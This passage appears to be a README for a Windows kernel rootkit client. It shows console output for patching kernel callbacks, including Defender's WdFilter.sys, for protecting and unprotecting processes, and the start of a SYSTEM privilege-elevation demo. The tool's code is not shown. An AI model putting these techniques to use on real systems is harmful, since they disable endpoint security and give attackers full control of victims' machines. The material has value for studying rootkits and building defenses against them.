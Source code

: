 ```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks --patch 10
[+] Callback patched successfully at index 10
```

```
PS C:\Users\memn0ps\Desktop> .\client.exe callbacks --enumerate
Total Kernel Callbacks: 10
[0] 0xffffbd8d3d2502df ("ntoskrnl.exe")
[1] 0xffffbd8d3d2fe81f ("cng.sys")
[2] 0xffffbd8d3db2bc8f ("WdFilter.sys")
[3] 0xffffbd8d3db2bf8f ("ksecdd.sys")
[4] 0xffffbd8d3db2c0df ("tcpip.sys")
[5] 0xffffbd8d3f10705f ("iorate.sys")
[6] 0xffffbd8d3f10765f ("CI.dll")
[7] 0xffffbd8d3f10789f ("dxgkrnl.sys")
[8] 0xffffbd8d3fa37cff ("vm3dmp.sys")
[9] 0xffffbd8d3f97104f ("peauth.sys")
```

## Protect / Unprotect Process

```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name notepad.exe --protect
[+] Process protected successfully 2104
```

![Protect](./notepad_protect.png)

```
PS C:\Users\memn0ps\Desktop> .\client.exe process --name notepad.exe --unprotect
[+] Process unprotected successfully 2104
```

![Protect](./notepad_unprotect.png)

## Elevate to NT AUTHORITY\\System and Enable All Token Privileges

```
PS C:\Users\memn0ps\Desktop> whoami /all

USER INFORMATION

================== ==============================================
windows-10-vm\user S-1-5-21-3694103140-4081734440-3706941413-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
```